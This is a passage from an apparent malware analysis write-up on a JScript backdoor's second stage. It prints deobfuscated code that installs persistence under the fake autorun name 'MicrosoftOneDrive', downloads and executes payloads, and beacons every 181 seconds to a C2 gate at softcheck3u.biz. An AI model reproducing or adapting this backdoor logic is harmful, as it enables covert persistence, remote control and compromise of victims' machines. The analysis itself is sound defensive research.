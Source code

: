 <h6>The first block of the second stager add the persistence, load the JSON parser, content the configuration of the backdoor and run the loop send a pulse to the C2.We can note that a name of the persistence is defined but not used on persistence function, that let to think to a name of task schedule or key for registry. Same comment can be made on the scriptname that not used on the script too.</h6>

```js
if(Execute == null){AddToAutorun(false,null,1);SendTaskResult= false};
if(!SendTaskResult){DownloadAndExecute();SendTaskResult= 1;return};
if(!Execute){return};
if(GetFilenameFromURL== null){return}
else {ImportJSON= LoadJsonParser};
version= "Test7";
if(LoadJsonParser=== null){DownloadAndExecute(null);return};
server= "https://softcheck3u.biz/inc/server/gate.php";
interval= 181;
attemptsCount= 5;
status= "Active";
if(DoTasks== false)
{
 SendTaskResult(false,null,null);
 SendTaskResult= true
};
wss =  new ActiveXObject('WScript.Shell');
defaultPath= wss.ExpandEnvironmentStrings('%APPDATA%');
scriptFullPath= WScript.ScriptFullName;
scriptName= WScript.ScriptName;
fakeAutorunName= "MicrosoftOneDrive";
if(GetClientInfo== false)
{
 SendTaskResult();
 AddToAutorun= false
};
shellObj= WScript.createObject("WScript.Shell");
LoadJsonParser();
clientInfo= GetClientInfo();
AddToAutorun();
while(status== "Active")
{
 DoTasks(SendClientInfo());
 WScript.sleep(interval* 1000);
 DoTasks(SendKnock());
};
if(!GetClientInfo)
{
 GetFilenameFromURL();
 ExecuteAndOutput= 1;
 return;
}
else {};
if(!SendClientInfo){return}
else {};
if(!GetFilenameFromURL){SendClientInfo(true)}
else {};
if(!DoTasks)
{
 SendClientInfo(1);
 GetClientInfo= 1;
};
```
